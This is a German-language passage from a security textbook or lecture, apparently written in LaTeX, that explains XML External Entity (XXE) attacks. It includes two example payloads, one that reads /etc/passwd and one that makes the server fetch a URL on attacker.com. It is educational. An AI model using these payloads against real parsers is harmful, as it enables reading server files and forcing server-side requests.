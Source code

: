 XML besitzt die Möglichkeit direkt innerhalb des XML-Dokuments Typdefinitionen zu inkludieren. Diese DTD (Document Type Definition) beginnt mit dem DOCTYPE Tag und kann auch External Entities definieren. Diese External Entities sind Verweise auf externe Datenquellen, diese werden durch den Parser automatisch in das XML-Dokument eingefügt.

Ein Beispiel für einen XML External Entities Angriff der auf die Extraktion lokaler Daten zielt:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
\end{verbatim}

Bei diesem Beispiel wird ein neues Element (\textit{foo}), und als möglicher Wert für dieses Element die externe Datenquelle /etc/passwd als Referenz \textit{\&xxe} definiert. Anschließend wird dieser Elementtyp auch sofort samt der Referenz verwendet. Erlaubt ein Server das Parsen dieses XML-Dokumentes würde er nun diese Datei auslesen, deren Inhalt in das XML Dokument einfügen und ggf. das ausgefüllte Dokument an den Client zurückgeben. Somit kann der Angreifer auf eine Datei, auf die er eigentlich keinen Zugriff besitzen sollte mit den Rechten des Applikationsservers zugreifen.

Ebenso kann auf eine Netzwerkadresse verwiesen werden:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >
]>
<foo>&xxe;</foo>
\end{verbatim}

In diesem Beispiel kann der Angreifer den XML-verarbeitenden Server dazu bringen, mittels HTTP GET auf die übergebene URL (\url{http://www.attacker.com/text.txt}) zuzugreifen. Dadurch ergeben sich mehrere Angriffsmöglichkeiten:

